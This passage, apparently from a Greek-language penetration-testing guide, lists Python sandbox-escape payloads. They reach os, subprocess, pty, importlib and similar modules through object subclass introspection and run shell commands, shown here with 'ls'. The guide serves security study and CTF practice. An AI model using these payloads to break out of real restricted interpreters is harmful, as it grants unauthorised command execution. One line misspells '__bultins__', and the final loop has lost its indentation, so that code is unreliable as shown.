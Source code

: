 Υπάρχουν πολλοί, και **χρειαζόμαστε μόνο έναν** για να εκτελέσουμε εντολές:
```python
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
```
Μπορούμε να κάνουμε το ίδιο πράγμα με **άλλες βιβλιοθήκες** που γνωρίζουμε ότι μπορούν να χρησιμοποιηθούν για **εκτέλεση εντολών**:
```python
#os
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" in x.__init__.__globals__ ][0]["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "os" == x.__init__.__globals__["__name__"] ][0]["system"]("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'os." in str(x) ][0]['system']('ls')

#subprocess
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "subprocess" == x.__init__.__globals__["__name__"] ][0]["Popen"]("ls")
[ x for x in ''.__class__.__base__.__subclasses__() if "'subprocess." in str(x) ][0]['Popen']('ls')
[ x for x in ''.__class__.__base__.__subclasses__() if x.__name__ == 'Popen' ][0]('ls')

#builtins
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "__bultins__" in x.__init__.__globals__ ]
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "builtins" in x.__init__.__globals__ ][0]["builtins"].__import__("os").system("ls")

#sys
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"].system("ls")

#commands (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "commands" in x.__init__.__globals__ ][0]["commands"].getoutput("ls")

#pty (not very common)
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pty" in x.__init__.__globals__ ][0]["pty"].spawn("ls")

#importlib
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "importlib" in x.__init__.__globals__ ][0]["importlib"].__import__("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].import_module("os").system("ls")
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'imp." in str(x) ][0]["importlib"].__import__("os").system("ls")

#pdb
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "pdb" in x.__init__.__globals__ ][0]["pdb"].os.system("ls")
```
Επιπλέον, θα μπορούσαμε ακόμη να αναζητήσουμε ποια modules φορτώνουν κακόβουλες βιβλιοθήκες:
```python
bad_libraries_names = ["os", "commands", "subprocess", "pty", "importlib", "imp", "sys", "builtins", "pip", "pdb"]
for b in bad_libraries_names:
vuln_libs = [ x.__name__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and b in x.__init__.__globals__ ]
print(f"{b}: {', '.join(vuln_libs)}")
```
